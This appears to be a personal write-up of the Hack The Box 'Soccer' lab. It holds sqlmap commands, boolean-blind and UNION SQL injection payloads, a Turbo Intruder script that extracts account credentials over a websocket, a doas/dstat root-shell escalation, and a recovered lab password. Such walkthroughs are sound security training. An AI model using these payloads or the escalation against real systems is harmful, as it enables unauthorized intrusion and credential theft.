 # Soccer \[Easy]

{% embed url="https://0xdf.gitlab.io/2023/06/10/htb-soccer.html" %}
Best sqli explaination, make a script to automate this tho ik you can do it
{% endembed %}

## Report

A reverse shell exploit via TinyFileManager shows another vhost `soc-player.htb` at `/etc/nginx/sites-enabled/soc-player.htb`. This site has a login and input field which checks whether a ticket exists or not. This field is vulnerable to boolean blind SQLi and can be exploited to find database, table, column and field values respectively.

Eventually we find creds for user `player`. Login via SSH and user has SUID set for `doas`, refer GTFOBins and become root

## Cheatsheet

<pre class="language-sql"><code class="lang-sql">sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 1 -v 6
sqlmap --flush-session -u ws://soc-player.soccer.htb:9091 -D soccer_db --data '{"id": "1234"}' --dbms mysql --tables --batch --level 5 --risk 3 --threads 1 -v 6

"id":"12 or 1=1-- -"
"id":"12 UNION select 1,2,3-- -"
"id":"0 UNION select user,2,3 from mysql.user where user like 'r%'-- -"

"id": "0 OR (select count(*) from information_schema.schemata)=5"
"id":"0 OR MID((SELECT DISTINCT(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 4,1),2,1)='o'"

"id": "0 OR (select count(*) from soccer_db.accounts)=1"
"id": "0 OR MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='soccer_db' LIMIT 0,1),1,1)='a'"

"id": "0 OR (select count(*) from information_schema.COLUMNS WHERE TABLE_SCHEMA='soccer_db' and TABLE_NAME='accounts')=4"
"id": "0 OR MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='soccer_db' and table_name='accounts' LIMIT 0,1),1,1)='i'"
#ALTERNATIVE USING UNION - MATCH NUMBER OF COLUMNS AS ORIGINAL QUERY FIRST
"id": "0 UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='soccer_db' and TABLE_NAME='accounts' and COLUMN_NAME like 'i%'"

"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),1,1)='p'"
"id": "0 OR MID((SELECT password FROM soccer_db.accounts LIMIT 0,1),1,1)='p'"
"id": "0 OR ASCII(MID((SELECT password FROM soccer_db.accounts LIMIT 0,1),1,1))=80"
<strong>#'p' and 'P' both returned true hence we use ASCII 
</strong>#Did not enumerate length of username and password

</code></pre>

```python
#Generate charlist
file =  open('smallcharlist.txt','w+') 
for i in range (97,123):
    file.write(chr(i)+'\n')
file.close()
```

```python
#Body in Request Panel of WebSocket Turbo Intruder
{
"id": "0 OR MID((SELECT username FROM soccer_db.accounts LIMIT 0,1),$1,1)='$2'"
}

import time
def queue_websockets(upgrade_request, message):
    connection1 = websocket_connection.create(upgrade_request)
    template = message
    with open('/home/jtripz/htb/scripts/smallcharlist.txt') as file: 
        for i in range(1,10):
            for line in file:
                time.sleep (0.17)
                payload = build_payload(template,str(i), line.strip())
                connection1.queue(payload)
            file.seek(0)

def build_payload (template, *args):
    return_payload = template
    for i in range (0, len(args)):
        return_payload = return_payload.replace('$'+str(i+1), args[i])
    return return_payload
    

def handle_outgoing_message(websocket_message):
    results_table.add(websocket_message)

def handle_incoming_message(websocket_message):
    if websocket_message.getLength()==13:
        results_table.add(websocket_message)
```

```
find / -perm -4000 2>/dev/null
find / -name doas.conf 2>/dev/null
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_jtripz.py
doas /usr/bin/dstat --jtripz
```

## Loot

### Creds

player:PlayerOftheMatch2022

### Proof

#### SQL Injection over websockets

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption><p>Right Click -> Extensions -> Send to WebSocket Turbo Intruder</p></figcaption></figure>

After so much research, we found a github cheatsheet for sqli enumeration without sqlmap in the SQLi Contd page. Using sqlmap in verbose gave a lot of info as well as the methodology and tables/schema to use.

`LIMIT` (offset \[start from 0], no. of rows), `MID/SUBSTRING` (string, pos \[start from 1], length)

It's very important to identify what kind of injection is actually possible (time, bool etc.) which is why payload all the things helps get you the initial structure for the query and the rest you can manipulate to your liking.

`sqlmap` showed time and boolean injections were possible\
`OR` and `UNION` injections were also possible as shown, one key difference being with `OR` we narrowed it down to a `True` or `False` singular value whereas `UNION` you need to match the number of columns the original query was structured. The following tables give us all the info we need

`information_schema.schemata`\
`information_schema.tables`\
`information_schema.columns`

Since this was over websockets (port 9091) our wfuzz commands we found wont work, plus this boolean based blind SQLi - every character has to enumerated individually

A valid response is 13 characters long, hence we only output response for replies with length 13

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

ASCII values from 32 to 127 cover all alphabets, numbers and special characters
